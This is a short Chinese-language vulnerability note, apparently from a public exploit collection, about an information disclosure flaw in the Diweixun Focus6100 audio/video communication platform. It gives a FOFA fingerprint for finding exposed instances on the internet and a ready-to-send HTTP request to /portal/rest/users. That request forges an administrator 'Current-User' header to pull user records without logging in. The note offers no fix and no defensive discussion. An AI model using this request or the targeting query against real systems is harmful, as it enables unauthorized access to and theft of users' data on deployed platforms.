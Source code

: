 # 迪威讯Focus6100音视频通讯平台存在敏感信息泄露漏洞

# 一、漏洞简介
迪威讯Focus6100音视频通讯平台存在敏感信息泄露漏洞

# 二、影响版本
+ 迪威讯Focus6100音视频通讯平台

# 三、资产测绘
+ fofa`web.icon=="bbc933535a6bfe478afb1fd0b3c470bf"`
+ 特征

![1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3.png](./img/KnyYKXzCYtkOpk7c/1727236496776-a86037c1-f827-4701-8df6-d3ff921c09b3-744711.png)

# 四 、漏洞复现
```java
GET /portal/rest/users HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
Current-User: admin|Administrator
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Connection: close
```

![1727236656514-5bb4c381-fbea-4fc1-b574-5c4e273f04e8.png](./img/KnyYKXzCYtkOpk7c/1727236656514-5bb4c381-fbea-4fc1-b574-5c4e273f04e8-402836.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tgilgex06w0aebxb>